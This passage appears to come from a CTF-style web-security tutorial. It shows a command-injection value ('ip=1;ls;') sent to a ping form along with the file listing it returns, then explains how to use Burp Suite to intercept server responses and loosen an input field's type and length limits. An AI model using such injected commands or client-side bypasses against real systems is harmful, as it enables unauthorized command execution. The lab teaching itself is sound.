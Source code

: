 Modify:

```
ip=1;ls;
```

Resulting page output:

```
flag.txt
index.html
node_modules
package-lock.json
public
server.js
```

---

### Intercepting Responses

Sometimes, we want to change server **responses** before the browser renders them.

#### Burp

Go to:
```
Proxy > Options > Intercept Server Responses
```

Enable interception rules like:

```
Edit: Content type header Matches text
Remove: Request Was modified
Remove: Status code Does not match ^304$
```

Intercepted response:

```html
<body>
  <form name='ping' method='post'>
    <label for="ip">Ping Your IP:</label>
    <input type="number" id="ip" maxlength="3" />
  </form>
</body>
```

Change:
- `type="number"` ➝ `type="text"`
- `maxlength="3"` ➝ `maxlength="100"`

Modified version:

```html
<input type="text" id="ip" maxlength="100" />
```
